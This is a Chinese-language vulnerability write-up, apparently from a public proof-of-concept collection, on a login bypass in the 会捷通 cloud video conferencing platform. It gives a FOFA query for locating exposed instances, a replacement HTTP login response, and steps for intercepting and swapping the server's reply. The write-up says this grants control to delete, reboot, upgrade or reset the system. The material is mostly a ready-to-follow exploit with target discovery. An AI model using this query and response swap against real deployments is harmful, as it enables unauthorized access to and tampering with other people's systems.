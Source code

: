 ## 会捷通云视讯平台存在登录绕过漏洞

## 漏洞描述

**会捷通云视讯平台存在登录绕过漏洞，可以通过修改返回包进行登录**

## 漏洞影响

> 会捷通云视讯平台

## FOFA

> body="/him/api/rest/v1.0/node/role

## 漏洞复现

**替换登录返回包内容即可绕过登录验证。**

```
HTTP/1.1 200 
Date: Thu, 25 Mar 2021 13:53:45 GMT
Accept-Ranges: bytes
Server: Restlet-Framework/2.1.1
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 28
 
{"token":null,"result":null}
```

**1.**   **拦截数据包**

![1](resource/会捷通云视讯平台存在登录绕过漏洞/1.png)

**输入任意用户/密码，如admin/admin**

 

**2.点击登录，拦截返回包，替换为如下内容**

![2](resource/会捷通云视讯平台存在登录绕过漏洞/2.png)

**正常返回包：提示密码错误：**

![3](resource/会捷通云视讯平台存在登录绕过漏洞/3.png)

**替换：**

![4](resource/会捷通云视讯平台存在登录绕过漏洞/4.png)

**放开拦截，可任意操作，删除，重启、升级、重置等等**

![WechatIMG3](resource/会捷通云视讯平台存在登录绕过漏洞/WechatIMG3.png)